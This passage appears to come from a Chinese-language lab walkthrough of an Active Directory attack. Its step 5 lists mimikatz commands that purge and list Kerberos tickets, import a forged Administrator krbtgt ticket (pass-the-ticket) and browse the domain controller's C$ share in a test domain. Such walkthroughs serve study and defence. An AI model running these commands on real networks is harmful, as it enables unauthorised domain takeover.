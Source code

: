 [![](assets/1705982146-54c420d2478a26db791918a4636dbf81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222600-d592bc84-b79f-1.png)  
Step 5：使用 mimikatz 将这个票据导入内存中，然后访问域控

```plain
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```
